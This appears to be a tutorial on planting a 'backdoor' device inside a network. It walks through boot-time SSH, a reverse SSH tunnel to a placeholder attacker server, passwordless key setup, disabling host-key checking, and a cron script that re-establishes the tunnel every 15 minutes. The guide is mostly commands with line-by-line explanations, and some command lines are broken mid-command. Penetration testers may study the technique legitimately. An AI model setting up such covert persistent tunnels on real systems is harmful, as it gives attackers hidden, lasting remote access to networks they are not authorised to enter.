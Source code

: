 
# SSL tunneling

It is required that the SSH server starts at boot time, so add one line to the /etc/rc.local file:

```
sudo /etc/init.d/ssh start
```

Some idiosyncrasies worth noting:

Instead of using /etc/init.d/ssh start, it's more common and recommended to use **sudo service ssh start** on many modern Linux distributions. This command ensures that the SSH service starts at boot time.

The /etc/rc.local file is used for running commands at the end of the system boot process on older Linux systems. However, on some newer distributions, /etc/rc.local might not exist or may not be executable by default. In such cases, an alternative method or systemd service file may be required.

Anyway, once we learn the backdoor’s IP address, we can connect to it using the ssh command:

```
ssh root@192.168.1.2
```

Do not forget to change the password, and also the hostname:

```
root@kali:~ $ passwd
Changing password for root
(current) UNIX password:
Enter new UNIX password:
root@kali:~ $ echo 'backdoor' > /etc/hostname
root@kali:~ $ reboot
```

SSH can build a tunnel linking two ports on two machines:

```
root@backdoor:~ # ssh -nNT -R 5555:localhost:22 <AttackServer_IP>
root@<AttackServer>’s password:
```

The options -nNT in the SSH command serve specific purposes in different scenarios:

-n: Redirects stdin from /dev/null

This option prevents SSH from reading input from the terminal. It's useful when you want to run SSH in a script or a background process where you don't need or want interactive input.

-N: Specifies no remote command execution.

Using -N tells SSH not to execute any remote commands after the connection is established. This is commonly used when you're only interested in setting up port forwarding or tunneling without opening a shell session or running any commands on the remote server.

-T: Disables pseudo-terminal allocation.

-T is used to disable pseudo-terminal allocation, meaning no interactive shell is allocated on the remote end. This is helpful when you're setting up a tunnel or forwarding ports and don't need or want an interactive shell session on the remote server.

In order to SSH into our backdoor, we simply connect to the attack server on port 5555:

```
root@AttackServer:~ # ssh localhost:5555
```

However, we need to automate this connection without the need to enter the password on the backdoor each time. Generating a public/private key pair is how we might achieve that.

```
root@backdoor:~ # ssh-keygen -t rsa -b 2048
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
```

Here is the next step:

```
root@AttackServer:~ # scp 192.168.1.2:/root/.ssh/id_rsa.pub
./id_pi.pub
root@AttackServer:~ # mkdir /root/.ssh
root@AttackServer:~ # cat id_pi.pub >> /root/.ssh/authorized_keys
```

SCP Command:

This command copies the id_rsa.pub file from the /root/.ssh/ directory on 192.168.1.2 to the current directory (./id_pi.pub) on AttackServer. Ensure that 192.168.1.2 is the correct IP address and that you have appropriate permissions to access /root/.ssh/id_rsa.pub on that server.

Create SSH Directory:

This command creates a new .ssh directory in the /root directory of AttackServer. This directory is typically used for storing SSH configuration and key files. Make sure to set appropriate permissions (chmod 700 /root/.ssh) to ensure only the root user can read from and write to this directory.

Add Public Key to Authorized Keys:

This command appends the contents of id_pi.pub (the public key) to the authorized_keys file in /root/.ssh. This allows the corresponding private key (id_rsa) from 192.168.1.2 to authenticate securely to AttackServer. Ensure that authorized_keys has secure permissions (chmod 600 /root/.ssh/authorized_keys) to prevent unauthorized access.

Normally, SSH checks the host keys of remote servers to verify their identity and prevent man-in-the-middle attacks. Setting StrictHostKeyChecking=no bypasses this check, which can be useful in automated or scripted environments where accepting the host key manually is not feasible:

```
ssh -nNT -o StrictHostKeyChecking=no -R 5555:localhost:22 <AttackServer_IP>
```

For testing purposes, we could issue our command again and check if the password prompt is still there:

```
root@backdoor:~ # ssh -nNT -R 5555:localhost:22 <AttackServer_IP>
```

The final step would be setting up a failsafe script executing every 15 minutes using a crontab task:

```
#!/bin/bash
if [[ $(ps -ef | grep -c 5555) -eq 1 ]]; then
/usr/bin/ssh -i /root/.ssh/id_rsa -nNT -R
5555:localhost:<AttackServer_PORT> <AttackServer_IP>
fi
```

A quick breakdown of the script:

**if [[ $(ps -ef | grep -c 5555) -eq 1 ]]; then:**

[[ ... ]]: Double brackets [[ ... ]] are used for conditional expressions in Bash. They are more flexible and offer additional features compared to single brackets [ ... ]. Also supports pattern matching (==, !=), regex matching (=~), and logical operators (&&, ||).

**$(ps -ef | grep -c 5555):**

Command substitution ($(...)) runs the command inside and replaces it with its output.

**ps -ef:**

Lists all processes.

**grep -c 5555:**

Counts the occurrences of 5555 in the process list.

**-eq 1:**

Checks if the count of processes running on port 5555 is equal to 1.

**then:**

Begins the block of commands to execute if the preceding if condition ([[ ... ]]) evaluates to true (0).

**/usr/bin/ssh -i /root/.ssh/id_rsa -nNT -R 5555:localhost:<AttackServer_PORT> <AttackServer_IP>:**

**/usr/bin/ssh:**

Executes the SSH command.

**-i /root/.ssh/id_rsa:**

Specifies the identity file (private key) to use for authentication.

**-nNT: SSH options:**

-n: Redirects stdin from /dev/null.
-N: Specifies no remote command execution after the connection is established.
-T: Disables pseudo-terminal allocation.

**-R 5555:localhost:<AttackServer_PORT> <AttackServer_IP>:**

Sets up a reverse SSH tunnel from port 5555 on <AttackServer_IP> to localhost on port <AttackServer_PORT>.

**fi:**

Ends the if statement block.

And finally, the crontab:

```
root@backdoor:~ # crontab -e
*/15 * * * * /bin/bash /root/reload.sh
```

**crontab -e**

This command opens the crontab file for editing using the default text editor.
The crontab file is where scheduled tasks (cron jobs) are defined for the current user.

**/15 * * * * /bin/bash /root/reload.sh**

This is the schedule part of the cron job, specifying when the command should run.

*/15: Every 15 minutes. The */15 means "every 15th minute," so it runs at 0, 15, 30, and 45 minutes past each hour. The remaining asterisks (*) represent "every hour," "every day of the month," "every month," and "every day of the week," respectively.

**/bin/bash /root/reload.sh**

/bin/bash: Specifies the shell to use for executing the script.

/root/reload.sh: The path to the script that will be executed

Ensure that /root/reload.sh has the appropriate permissions to be executed:

```
chmod +x /root/reload.sh
```

**Explanation of Cron Syntax:**

- Minute (*/15): Specifies that the command should run every 15 minutes.
- Hour (*): Every hour.
- Day of the month (*): Every day of the month.
- Month (*): Every month.
- Day of the week (*): Every day of the week.
